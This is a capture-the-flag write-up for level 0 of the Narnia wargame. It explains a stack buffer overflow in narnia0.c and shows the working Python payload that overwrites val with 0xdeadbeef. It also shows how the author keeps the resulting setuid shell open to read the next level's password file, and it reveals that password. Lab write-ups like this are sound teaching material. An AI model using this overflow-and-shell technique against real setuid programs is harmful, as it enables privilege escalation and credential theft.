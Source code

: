 
After Connecting to the Machine 

```shell
narnia0@narnia:~$ ls /narnia/
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls -la    
total 116
drwxr-xr-x  2 root    root    4096 Nov  9 15:08 .
drwxr-xr-x 25 root    root    4096 Oct 31 21:37 ..
-r-sr-x---  1 narnia1 narnia0 7568 Nov  9 15:08 narnia0
-r--r-----  1 narnia0 narnia0 1186 Nov  9 15:08 narnia0.c
-r-sr-x---  1 narnia2 narnia1 7404 Nov  9 15:08 narnia1
-r--r-----  1 narnia1 narnia1 1000 Nov  9 15:08 narnia1.c
-r-sr-x---  1 narnia3 narnia2 5164 Nov  9 15:08 narnia2
-r--r-----  1 narnia2 narnia2  999 Nov  9 15:08 narnia2.c
-r-sr-x---  1 narnia4 narnia3 5836 Nov  9 15:08 narnia3
-r--r-----  1 narnia3 narnia3 1841 Nov  9 15:08 narnia3.c
-r-sr-x---  1 narnia5 narnia4 5336 Nov  9 15:08 narnia4
-r--r-----  1 narnia4 narnia4 1064 Nov  9 15:08 narnia4.c
-r-sr-x---  1 narnia6 narnia5 5700 Nov  9 15:08 narnia5
-r--r-----  1 narnia5 narnia5 1261 Nov  9 15:08 narnia5.c
-r-sr-x---  1 narnia7 narnia6 6076 Nov  9 15:08 narnia6
-r--r-----  1 narnia6 narnia6 1602 Nov  9 15:08 narnia6.c
-r-sr-x---  1 narnia8 narnia7 6676 Nov  9 15:08 narnia7
-r--r-----  1 narnia7 narnia7 1974 Nov  9 15:08 narnia7.c
-r-sr-x---  1 narnia9 narnia8 5232 Nov  9 15:08 narnia8
-r--r-----  1 narnia8 narnia8 1292 Nov  9 15:08 narnia8.c
```
okay so we can only access Narnia0.c and the executable of narnia0 

Lets try to execute narnia0 
```shell
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: something
buf: something
val: 0x41414141
WAY OFF!!!!
```
Lets See the Code for it 
```shell
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
so this is a Buffer over flow exploit lets try to brute force it 
After Quite Sometime I had to buffer over flow manually I have reached that the stack takes 20 A's and then comes the hex decimals of **\xde\xad\xbe\xef** as you can see below its reversed in the stack because C uses **Little Indian** now lets reverse it and try it again 
```shell
narnia0@narnia:/narnia$ python -c "print('A'* 20 +'\xde\xad\xbe\xef')" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAޭ��
val: 0xefbeadde
WAY OFF!!!!
```
```shell
narnia0@narnia:/narnia$ python -c "print('A'* 20 +'\xef\xbe\xad\xde')" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
narnia0@narnia:/narnia$ whoami
narnia0
```
Finally I got **0xdeadbeef** in the Val part :D but nothing happens :( No Shell 

After Quite Some Research I have learned I can do chain command and send it to the shell after we exploit it 

```shell
narnia0@narnia:/narnia$ (python -c "print('A'* 20 +'\xef\xbe\xad\xde')"; pwd) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
/bin/sh: 1: /narnia: Permission denied
```
As you can see it executed ```pwd``` after the buffer over flow 
lets try to cat the password for next level which is in this directory ```ls /etc/narnia_pass/narnia1```

```shell
narnia0@narnia:/narnia$ (python -c "print('A'* 20 +'\xef\xbe\xad\xde')"; cat /etc/narnia_pass/narnia1) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat: /etc/narnia_pass/narnia1: Permission denied
```
I still have permission denied 
Why is that -> when the program executs "cat /etc/narnia_pass/narnia0" it executed  $user= narnia0 so we have had permission denied but I found out that when i do cat without argument it stop execution till it get the argument so i don't lose the shell 
This is a Sample Below 
```shell
narnia0@narnia:/narnia$ cat
whoami
whoami
ls
ls
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia0
```
Lets Try this with our Payload Since it will be executed as narnia1 so I can try to stop the execution in between and play with shell

```shell
narnia0@narnia:/narnia$ (python -c "print('A'* 20 +'\xef\xbe\xad\xde')"; cat ) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
echo "Finally We Go it"
Finally We Go it
```
It Worked , I have learned a lot from 1st level 

I am pretty sure there is automated solution with ```pwntools``` I will try to read it and find how to do it automatic :D  

